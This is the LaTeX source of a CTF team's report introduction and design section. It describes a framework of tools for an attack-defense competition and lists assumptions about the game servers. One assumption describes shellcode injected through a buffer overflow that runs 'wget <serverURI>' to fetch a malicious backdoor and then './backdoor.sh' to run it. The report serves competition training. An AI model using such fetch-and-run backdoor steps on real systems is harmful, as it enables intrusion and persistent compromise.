 \documentclass[12pt]{report}
\begin{document}
\noindent In this report, we will cover our overall design including details of how each tool in our framework operates and the services they provide a CTF team. We follow up with explanations of how we developed our framework and reporting the justifications behind why these tools were built and the goal of what these tools are to achieve. We also justify the assumptions taken into account when developing the framework. We transition into the results we have achieved while also documenting some of the problems we had encountered or foresaw regarding our tools in relation to the actual competition. Finally we discuss the impact of our developments, tools, and observations in our conclusion.

\section*{Design and Implementation}
Our design considers the following assumptions we made about the game server:

\begin{enumerate}
	\item There will be at \textbf{least} one buffer overflow that allows us to inject the shell code that is equivalent in accomplishing the following two functions:
	\begin{itemize}
		\item \texttt{wget <serverURI>} - This allows us to install the malicious backdoor on the victim machine
		\item \texttt{./backdoor.sh} - This allows us to immediately begin running the script after installation
	\end{itemize}
	\item We assume flags are being stored, read, and write in the directory: \\\\ \texttt{/opt/ctf/<some\_game\_service>/rw/} \\\\
	This assumption is made with the statement that all game servers will be similar with each other, including our own. 
	\item The existing services on the example server will also be present on the live server.\\ 
	The current services on the example server can be automated through a tool we construct. Furthermore, if the new services added on the live CTF server are similar to the existing services, in terms of vulnerability and input, our tools should be easily configurable to also exploit the new services.
\end{enumerate}
\end{document}
